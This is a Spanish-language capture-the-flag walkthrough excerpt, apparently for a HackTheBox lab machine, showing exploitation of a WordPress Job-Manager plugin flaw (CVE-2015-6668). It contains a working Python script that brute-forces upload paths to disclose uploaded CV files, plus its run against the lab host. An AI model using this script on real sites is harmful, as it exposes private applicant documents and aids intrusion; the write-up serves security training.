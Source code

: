 ### Explotación

* * *

Procedemos a buscar vulnerabilidades del plugin `job-manager` y encontramos un sitio donde vemos que podemos enumerar los posibles CV's subidos a WordPress. Tenemos un enlace a una página que no existe pero mediante la web `WayBack Machine` encontramos una snapshot que podemos ver y extraemos el siguiente script en Python2 el cual vamos a adaptar a Python3

```python
#!/usr/bin/python3

import requests

print ("""  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
""") 
website = input('Enter a vulnerable website: ')  
filename = input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2022):  
    for i in range(1,13):
        for extension in {'doc','pdf','docx','jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print ("[+] URL of CV found! " + URL)
```

Ejecutamos el script y nos pide `url` y `file name` y aquí es donde entra en juego la enumeración que realizamos anteriormente en donde localizamos la entrada `HackerAccessGranted`

```bash
❯ python3 exploit.py
  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted 
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

